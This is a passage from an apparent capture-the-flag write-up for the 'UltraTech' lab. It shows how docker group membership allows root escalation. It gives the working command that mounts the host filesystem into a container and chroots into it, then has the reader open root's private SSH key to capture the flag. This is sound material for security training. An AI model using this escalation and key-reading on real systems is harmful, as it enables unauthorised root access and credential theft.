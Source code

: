 * If a user in a machine is in the `docker` group, it also grants privileges equivalent to `root` user. Check this [article](https://docs.docker.com/engine/install/linux-postinstall/) explaining the inner workings of `Docker daemon`.

* To verify that `docker` is running as root we can type in the terminal:

    Syntax: ``ps -aux | grep docker``

    ![Docker Root Process](../imgs/Ultratech/docker_service_root_process.png)

### *Vertical Privilege Escalation*

* We can use [GTFOBins](https://gtfobins.github.io) to check if we can exploit it to escalate our privileges. To exploit ``docker``:

    1. We need to know if there is an image installed in `docker`.To list images in `docker`:
        * ``docker ps -a``
    2. To escalate our privileges, type in the terminal:

        * ``docker run -v /:/mnt --rm -it {IMAGE_NAME} chroot /mnt sh``

        ![Rooted](../imgs/Ultratech/rooted.png)

* Navigate to /root/ and copy the first 9 characters of `.ssh/id_rsa/` of root user.

![Finished](../imgs/Ultratech/finished.png)
